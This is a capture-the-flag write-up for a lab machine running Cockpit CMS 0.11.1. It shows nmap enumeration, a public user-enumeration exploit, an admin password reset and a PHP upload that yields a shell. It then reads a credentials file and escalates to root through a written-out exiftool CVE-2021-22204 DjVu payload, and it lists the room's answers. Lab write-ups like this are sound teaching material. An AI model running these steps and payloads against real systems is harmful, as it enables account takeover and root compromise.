 
### Enumeration 
- services and port scanning
  ```bash
  nmap -sV -Pn -p- -sS -T5 10.10.21.109 -oN enum-srv.txt
  ```

  ```
  Nmap 7.95 scan initiated Thu May  8 14:28:20 2025 as: /usr/lib/nmap/nmap --privileged -sV -Pn -p- -sS -T5 -oN enum-srv.txt 10.10.21.109
  Warning: 10.10.21.109 giving up on port because retransmission cap hit (2).
  Nmap scan report for cmspit.thm (10.10.21.109)
  Host is up (0.16s latency).
  Not shown: 65532 closed tcp ports (reset)
  PORT      STATE    SERVICE VERSION
  22/tcp    open     ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
  80/tcp    open     http    Apache httpd 2.4.18 ((Ubuntu))
  29779/tcp filtered unknown
  Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
  ```

- Q1: What is the name of the Content Management System (CMS) installed on the server?  
  - **cockpit**  
  ![](images/main-page.png)

- Q2: What is the version of the Content Management System (CMS) installed on the server?  
  - **0.11.1**  
  ![](images/version.png)

- We have CMS name and version, let's search for vulnerabilities  
  ![](images/search.png)

- Results:  
  ![](images/cve.png)

- Downloaded exploit and ran:  
  ```bash
  python3 50185.py -u http://cmspit.thm
  ```

- Valid usernames returned:  
  ![](images/validusers.png)

- Q3: How many users can you identify when you reproduce the user enumeration attack?  
  - **4**

- Get more info about users:  
  ![](images/getinfo.png)

- Reset password for `admin` account:  
  ![](images/newpass.png)

- Q4: What is the path that allows you to change user account passwords?  
  - **auth/resetpassword**  
  ![](images/resetpass.png)

- Logged in successfully:  
  ![](images/succes-login-admin.png)

- After login, discovered file upload functionality at:  
  **http://cmspit.thm/assetsmanager/upload**  
  ![](images/upload.png)

- Upload with PHP extension worked:  
  ![](images/sucess.png)  
  ![](images/php-code.png)

- Accessed the file and got a shell:  
  ![](images/shell-done.png)

- Upgraded shell using Python:  
  ```bash
  python3 -c "__import__('pty').spawn('/bin/bash')"
  ```

- Found a document with DB credentials/flag:  
  ![](images/lsuser.png)  
  ```bash
  cat /home/stux/.dbshell
  ```  
  ![](images/db-flag.png)

- Gained access via SSH:  
  - **stux : p4ssw0rdhack3d!123**  
  ```bash
  ssh stux@10.10.21.109
  ```  
  ![](images/gain-ssh.png)

- Got the user flag:  
  ![](images/user-flag.png)

---

### Privilege Escalation to Root

- Checked for sudo permissions:  
  ```bash
  sudo -l
  ```  
  ![](images/root-path.png)

- Found `exiftool` can be run as sudo. Vulnerability: **CVE-2021-22204**  
  - Reference: [https://vk9-sec.com/exiftool-12-23-arbitrary-code-execution-privilege-escalation-cve-2021-22204/](https://vk9-sec.com/exiftool-12-23-arbitrary-code-execution-privilege-escalation-cve-2021-22204/)

- Steps to escalate privileges:

  - Create malicious payload:
    ```bash
    echo '(metadata "\c${system('/bin/bash -p')};")' > payload
    ```

  - Compress it:
    ```bash
    bzz < payload > payload.bzz
    ```

  - Convert to `.djvu` format using `djvumake`:
    ```bash
    djvumake exploit.djvu INFO='1,1' BGjp=/dev/null ANTz=payload.bzz
    ```

  - Transfer the file to victim machine  
    ![](images/done-upload.png)

  - Execute:
    ```bash
    sudo exiftool exploit.djvu
    ```  
    ![](images/root-flag.png)